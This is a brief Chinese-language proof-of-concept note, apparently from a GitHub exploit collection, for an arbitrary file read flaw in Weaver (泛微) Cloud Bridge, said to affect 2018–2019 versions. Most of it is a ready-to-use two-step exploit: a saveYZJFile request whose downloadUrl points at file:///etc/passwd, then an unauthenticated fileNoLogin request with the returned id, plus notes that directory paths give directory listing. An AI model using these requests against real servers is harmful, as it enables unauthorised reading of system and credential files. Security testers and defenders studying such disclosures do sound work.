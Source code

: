 # 泛微云桥任意文件读取



## #影响范围

主要影响 2018-2019 版本

## #Poc

```
http://x.x.x.x/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///etc/passwd&fileExt=txt
```

响应包提取id值重发

```
http://x.x.x.x/file/fileNoLogin/{id}
```

- downloadUrl参数填写文件的绝对路径时，可以造成任意文件读取
- downloadUrl参数填写目录的绝对路径时，可以造成目录遍历